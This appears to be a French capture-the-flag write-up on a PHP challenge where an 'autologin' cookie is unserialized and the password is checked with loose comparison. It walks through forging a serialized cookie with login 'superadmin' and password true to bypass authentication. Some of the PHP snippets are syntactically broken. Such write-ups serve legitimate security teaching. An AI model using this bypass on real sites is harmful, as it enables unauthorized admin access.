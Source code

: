 Mais la condition qui nous renvoie vers la page admin est :
```php
if($_SESSION['login'] === "superadmin")
```
Donc on doit affecter "superadmin" à $_SESSION['login'] une fois la vérification de cookie, en gros le login est "superadmin"


```php
$_SESSION['login'] = $data['login'];
```

```php
class auth {
    public login = "superadmin";
    public password = true;
}

```
# <a id="correct"> Correction

On se connection en guest password guest,
On récupère le cookie autoloading et on url decode
On créer un cookie avec l'architecture de l'autoloading récupérer 

```php
$cookie = [
    public $login = "superadmin";
    public $password = true;
];
$cookie_ser = serialize(new auth);

```
URL Encode de $cookie_ser.
On passe l'encodage dans le cookie et on refresh !


```php
<?php
define('INCLUDEOK', true);
session_start();

if(isset($_GET['showsource'])){
    show_source(__FILE__);
    die;
}

/******** AUTHENTICATION *******/
// login / passwords in a PHP array (sha256 for passwords) !
require_once('./passwd.inc.php');


if(!isset($_SESSION['login']) || !$_SESSION['login']) {
    $_SESSION['login'] = "";
    // form posted ?
    if($_POST['login'] && $_POST['password']){
        $data['login'] = $_POST['login'];
        $data['password'] = hash('sha256', $_POST['password']);
    }
    // autologin cookie ?
    else if($_COOKIE['autologin']){
        $data = unserialize($_COOKIE['autologin']);
        $autologin = "autologin";
    }

    // check password !
    if ($data['password'] == $auth[ $data['login'] ] ) {
```